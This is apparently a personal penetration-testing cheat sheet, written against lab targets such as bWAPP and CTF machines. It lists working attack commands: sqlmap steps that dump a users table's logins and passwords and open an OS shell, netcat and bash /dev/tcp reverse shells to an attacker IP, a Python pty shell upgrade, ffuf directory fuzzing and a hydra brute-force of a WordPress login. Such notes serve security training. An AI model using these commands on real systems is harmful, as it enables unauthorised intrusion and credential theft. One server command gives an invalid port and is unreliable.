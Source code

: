 # Infosec
My InfoSec Cheat sheet and stuff



# scan local network

arp-scan --local

# sqlmap 

------


POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

# nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---
# photos and metadata

exif 

exiftool 

steghide info

binwalk - tool for searching binary images for embedded files and executable code



---
# SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
# start quick python http server 
python3 -m http.server 80080

# fuff coz i hate gobuster 
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.142.184/FUZZ -fs 42 -c -v 

# hydra brute force WP

hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.36.107 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
